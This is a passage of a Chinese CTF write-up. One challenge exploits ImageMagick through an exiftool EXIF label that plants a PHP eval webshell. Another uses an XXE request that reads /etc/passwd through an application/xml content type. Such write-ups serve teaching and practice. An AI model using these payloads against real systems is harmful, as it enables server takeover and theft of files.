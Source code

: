 然后用file_get_contents读到flag就行.


----------


0x01 图片上传漏洞 500
----
打开入口发现是个上传图片的 发现只能上传图片
然后扫到个test.php
发现有ImageMagick还是存在漏洞的
![web2.png][5]

于是找了一下
http://www.2cto.com/article/201605/505823.html
发现exif信息也能触发漏洞
ccf 中的web题
hint1:hidden parameter'image'
先用exiftool生成一个一句话后门 路径由phpinfo得到
```
exiftool -label="\"|/bin/echo \<?php \@eval\(\\$\_POST\[x\]\)\;?\> > /opt/lampp/htdocs/uploads/x.php; \"" 20161113150830.png
```
注意这里$是需要转义两次的 意思是要在图片里面带有一个\ 这样在服务器上echo写入的时候才会保留$

先上传一次带有后门的图片得到图片路径 然后拼接在发包一次修改filetype的参数为show或者win
![flag.png][6]

上菜刀得到falg

![flag2.png][7]

----------
0x02 api调用 100
----

打开发现
Content-Type: application/json
环境是python
需要读取flag吧 猜测是不是xxe 然后搜到了
http://bobao.360.cn/learning/detail/360.html
Content-Type头被修改为application/xml，客户端会告诉服务器post过去的数据是XML格式的.
加一个Content-Type: application/xml
payload
```
POST /api/v1.0/try HTTP/1.1
Host: web.jarvisoj.com:9882
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Accept: application/json
Content-Type: application/xml
Referer: http://web.jarvisoj.com:9882/
Content-Length: 165
X-Forwarded-For: 10.16.13.91
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```
![xxe.png][8]

  [1]: http://www.tuicool.com/articles/zEfuEz
  [2]: https://img.scanfsec.com/img/2016122082157378.png
  [3]: https://img.scanfsec.com/img/2016123993631644.png
  [4]: https://img.scanfsec.com/img/2016123187191897.png
  [5]: https://img.scanfsec.com/img/2016123272738253.png
  [6]: https://img.scanfsec.com/img/2016122761767173.png
  [7]: https://img.scanfsec.com/img/2016121231310862.png
  [8]: https://img.scanfsec.com/img/201612887644193.png
  [9]: https://img.scanfsec.com/img/201612259069001.png
  [10]: https://img.scanfsec.com/img/2016122467216741.png